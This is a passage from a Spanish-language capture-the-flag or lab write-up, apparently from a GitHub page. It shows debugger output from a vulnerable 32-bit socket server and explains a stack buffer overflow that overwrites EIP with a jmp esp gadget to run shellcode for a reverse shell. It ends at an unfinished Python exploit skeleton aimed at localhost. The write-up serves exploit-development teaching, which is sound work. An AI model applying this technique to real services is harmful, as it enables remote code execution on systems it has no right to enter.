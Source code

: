 ```css
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049030  setsockopt@plt
0x08049040  __libc_start_main@plt
0x08049050  printf@plt
0x08049060  htons@plt
0x08049070  perror@plt
0x08049080  accept@plt
0x08049090  strcpy@plt
0x080490a0  exit@plt
0x080490b0  strlen@plt
0x080490c0  bind@plt
0x080490d0  listen@plt
0x080490e0  socket@plt
0x080490f0  inet_addr@plt
0x08049100  recv@plt
0x08049110  close@plt
0x08049120  send@plt
0x08049130  _start
0x0804915d  __wrap_main
0x08049170  _dl_relocate_static_pie
0x08049180  __x86.get_pc_thunk.bx
0x08049190  deregister_tm_clones
0x080491d0  register_tm_clones
0x08049210  __do_global_dtors_aux
0x08049240  frame_dummy
0x08049246  vulnerable_function
0x0804928f  handle_client
0x08049393  main
0x0804954c  jmp_esp <--- Esta funcion nos interesa ya que gracias a esta podremos ejecutar una reverse shell mas fácil
0x0804955e  __x86.get_pc_thunk.ax
0x08049564  _fini
pwndbg> 
```

El binario es de 32 bits y no tiene protecciones, lo que significa que la pila es ejecutable. Esto nos permite inyectar y ejecutar código arbitrario. Nuestro objetivo es tomar el control del registro EIP, ya que este determina la próxima instrucción a ejecutar. Para esto, aprovechamos un buffer overflow, sobrescribiendo EIP con la dirección de un gadget `jmp esp`. 

¿Por qué `jmp esp`? Porque este gadget redirige la ejecución al registro ESP, y como todo lo que coloquemos después de sobreescribir EIP se almacenará en la pila, esto nos permite colocar ahí un shellcode y ejecutarlo cuando `jmp esp` transfiera el control a ESP.

Para hacer esto debemos crear un exploit en python, y utilizaremos la libreria "socket", ya que la máquina no tiene pip ni "pwntools". Primero haremos la base del exploit:

```python
import socket



host = '127.0.0.1'
port = 9000
offset = ?

junk = b"A"*offset

jmp_esp = ?


```